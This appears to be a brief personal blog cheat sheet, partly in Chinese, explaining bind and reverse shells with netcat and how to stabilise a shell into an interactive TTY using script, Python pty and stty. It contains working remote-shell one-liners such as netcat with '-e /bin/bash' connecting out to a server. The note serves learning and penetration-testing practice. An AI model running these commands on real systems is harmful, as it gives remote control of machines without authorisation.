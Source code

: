 ```yaml
---
title: "Reverse shell"
categories:
  - Blog
tags:
  - Bash
  - Reverse
last_modified_at: 2023-11-30
---
```


# Reverse shell

先弹 shell 就是正向 shell，后连接
后弹 shell 就是反向 shell，先监听

## 正向 shell

```bash
# 服务器端监听 1234 端口
nc -lvp 1234 -e /bin/bash
# 客户端连接 1234 端口
nc server_ip 1234
```

## 反向 shell

```bash
# 服务器端监听 1234 端口
nc -lvp 1234
# 客户端连接 1234 端口
nc server_ip 1234 -e /bin/bash
```

## interactive shell

- fix tty

```bash
# script command 用于记录终端会话
/usr/bin/script -qc /bin/bash /dev/null
# -q quiet
# -c command
```

or

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'

```

- fix tty type char

```bash
# ctrl+z
stty raw -echo; fg
# <CR><CR>
```

- fix tty size

```bash
# get client tty size
stty -a
# set server tty size
export TERM=xterm-256color
stty rows 24 columns 80
```

## tty

```bash
# pass text to another tty
# tty1
echo "hello" > /dev/pts/0
# tty2
cat /dev/pts/1
```
